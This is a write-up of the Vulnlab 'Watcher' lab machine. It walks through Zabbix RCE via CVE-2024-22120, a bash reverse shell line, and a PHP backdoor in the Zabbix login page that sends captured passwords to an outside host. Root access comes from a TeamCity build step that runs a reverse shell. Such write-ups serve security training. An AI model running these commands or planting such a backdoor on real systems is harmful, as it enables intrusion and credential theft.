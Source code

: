 
![](https://images-ext-1.discordapp.net/external/t5J7RHf9Ce4qzovuWH58fQjf0tQy6jDpKgmYAzNHrwM/https/assets.vulnlab.com/watcher_slide.png?format=webp&quality=lossless)

##  Machine Summary

We first find a Zabbix instance which is a vulnerable version where we can gain RCE via `CVE-2024-22120`. After gaining a shell we can backdoor the application to gain the credentials of another user `Frank`. With that user we can login to an internal `TeamCity` instance, that runs as `root`. Where we can create a pipeline to gain a reverse shell as `root`. 

## Recon

```ad-summary
title: NMAP
collapse: open

```nmap
nmap -sC -sV -p- --min-rate 1000 10.10.92.19 -oA watcher  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 20:02 CEST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 25.00% done; ETC: 20:02 (0:00:12 remaining)
Nmap scan report for 10.10.92.19
Host is up (0.019s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f0:e4:e7:ae:27:22:14:09:0c:fe:1a:aa:85:a8:c3:a5 (ECDSA)
|_  256 fd:a3:b9:36:17:39:25:1d:40:6d:5a:07:97:b3:42:13 (ED25519)
80/tcp    open  http       Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://watcher.vl/
10050/tcp open  tcpwrapped
10051/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```ad-important
title: Domains
collapse: open

- **watcher.vl**
```

## Initial Access
We are first presented with a normal website. We then perform subdomain enumeration:
```
ffuf -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://watcher.vl -H 'Host: FUZZ.watcher.vl' --fw 1720
```

This yields `zabbix.watcher.vl`

Guest login is enabled there. After login we can see a dashboard where it states the zabbix version as `Zabbix version 7.0.0alpha1`.
There is a [RCE vulnerability](https://gridinsoft.com/blogs/zabbix-sqli-vulnerability/) for this version. A [POC is available on Github](https://github.com/W01fh4cker/CVE-2024-22120-RCE) 

To get the `hostid` we can navigate to Inventory -> Hosts . There is only one with a hostid of `10084` which can be found as a query parameter after clicking on the host.
The `sessionid` can be found in cookie, by base64 decoding it.

Then the script can be run by providing those two parameters:
```
python3 CVE-2024-22120-RCE-2.py --ip zabbix.watcher.vl --sid bbf2d4b5233188ccfe382b39129644f5 --hostid 10084
```

After gaining a shell, it's advisable to stabilize the shell using something like pwncat:

```
bash -c "/bin/bash -i >& /dev/tcp/REDACTED/6063 0>&1" &
```

```
pwncat-cs -lp 6063
```

## Privilege Escalation

After stabilizing the shell we can get the user flag.

There is an interesting service running at 8111 which seems to be a `Teamcity` instance:
To access it we add our ssh key to the users home `/var/lib/zabbix/.ssh` inside `authorized_keys`. We can't actually login using ssh, but we can still use that for a socks proxy:

```
ssh -D 1080 -N -i zabbix.key zabbix@watcher.vl
```

We seem to have access to the login page in `/usr/share/zabbix/index.php` .
We can backdoor that file to forward all logins to our host:

```
$name = $_POST['name'] ?? 'Unknown';
$password = $_POST['password'] ?? 'Unknown';

// Prepare the log entry
//$logEntry = "Name: " . $name . ", Password: " . $password . "\n";

// Write the log entry to the file /tmp/log.txt
// The FILE_APPEND flag ensures the entry is added at the end of the file
// The file will be created if it does not exist
//file_put_contents('/tmp/log.txt', $logEntry, FILE_APPEND);
file_get_contents('http://REDACTED/x?name=' . $_POST['name'] . '&pass=' . $password);
//echo "Data logged successfully2!";
```

Then we get a request to our server after a few minutes:
```
10.10.70.236 - - [25/Jul/2024 23:01:02] "GET /x?name=Frank&pass=REDACTED HTTP/1.1" 404 -
```

We now have creds:
- `Frank`:`REDACTED`

We can now use those creds to access Teamcity. We now just need to create a pipeline giving us a shell:
Create a new project:
![new-project](images/new-project.png)
![create-project](images/create-project.png)

On the page we now get redirected to there is a Button `Create Build Configuration`
![create-build-config](images/create-build-config.png)

Just enter a name and save
![create-build-config-save](images/create-build-config-save.png)

Then skip the VCS integration
![vs-skip](images/vs-skip.png)

Then in the BuildConfiguration switch to BuildSteps in the navbar on the left:
![create-build-config](images/create-build-config.png)
![create-build-config-save](images/create-build-config-save.png)
There you can add a build step:
![add-build-step](images/add-build-step.png)

Select `Command Line` as type:
![cmd-line](images/cmd-line.png)

Then we enter reverse shell command in the Custom Script box:
![cmd-line2](images/cmd-line2.png)

Then save and click run on the top:
![run-build](images/run-build.png)

After a few seconds a revshell as root will get sent to our host.

We can then read the flag from the root directory:
```
(remote) root@watcher.vl:/root# cat root.txt 
VL{REDACTED}
```
